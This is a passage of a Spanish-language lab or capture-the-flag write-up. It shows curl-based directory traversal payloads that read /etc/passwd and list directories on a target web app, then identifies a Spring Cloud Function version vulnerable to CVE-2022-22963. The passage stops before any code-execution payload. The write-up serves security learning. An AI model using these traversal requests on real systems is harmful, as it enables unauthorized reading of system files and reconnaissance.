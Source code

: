 ## File Disclosure

Parece que el archivo de imagen se carga dinámicamente desde el sistema de archivos utilizando el parámetro img. Veamos si podemos leer algún archivo fuera de nuestro directorio de trabajo como /etc/passwd.

```bash
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../etc/passwd"

root:.x:0:0:root:/root:/bin/bash
daemon:.x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:.x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Aparentemente podemos usar este endpoint para leer archivos locales usando un payload genérico de directory traversal. Trasteando un poco más, descubrimos que también podemos listar directorios.

```bash
# mhil4ne@kali (bash)
curl "http://$rhost:8080/show_image?img=../../../../../../"

bin
boot
dev
...
```

## Remote Code Execution

Encontremos el origen de la aplicación para poder buscar credenciales o una superficie de ataque adicional.

```bash
# mhil4ne@kali (bash)
inject_fetch() { curl -sm 1 "http://$rhost:8080/show_image?img="$@; }
inject_fetch ../ # read parent directory
inject_fetch ../java # keep looking ...
```

Finalmente encontramos lo que parece ser la raíz del proyecto para la aplicación Java actual en ../../../{:.filepath}. Dentro de ese directorio, encontramos la configuración del proyecto Maven en pom.xml{:.filepath} que contiene un par de huellas de software notables.

- org.springframework.boot 2.6.5
- spring-cloud-function-web 3.2.2

Si buscamos vulnerabilidades con cualquiera de las dos huellas, vemos referencias a un par de CVE diferentes. Confirmamos que Spring Cloud Function versión 3.2.2 es vulnerable a CVE-2022-22963 comprobando la descripción CVEDetails.

> En las versiones 3.1.6, 3.2.2 y versiones anteriores no compatibles de Spring Cloud Function, al utilizar la funcionalidad de enrutamiento es posible que un usuario proporcione un SpEL especialmente diseñado como expresión de enrutamiento que puede dar lugar a la ejecución remota de código y al acceso a recursos locales.
